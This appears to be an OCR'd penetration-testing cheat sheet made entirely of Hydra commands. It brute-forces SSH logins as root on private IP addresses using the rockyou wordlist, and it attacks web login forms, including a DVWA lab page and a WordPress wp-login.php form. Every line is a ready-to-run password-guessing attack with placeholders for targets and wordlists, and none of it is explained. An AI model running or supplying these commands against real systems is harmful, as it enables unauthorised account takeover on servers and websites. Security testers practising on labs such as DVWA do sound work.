 # ssh
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh
hydra -l root -P LIST 192.168.1.105 -t 4 ssh
hydra -L USERNAME_LIST -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh
hydra -l root -P LIST 192.168.1.105 -t 4 ssh
# web
hydra -L *USERNAME_WORDLIST* -P *PASSWORD_WORDLIST* 
192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"

hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' *Wordpress*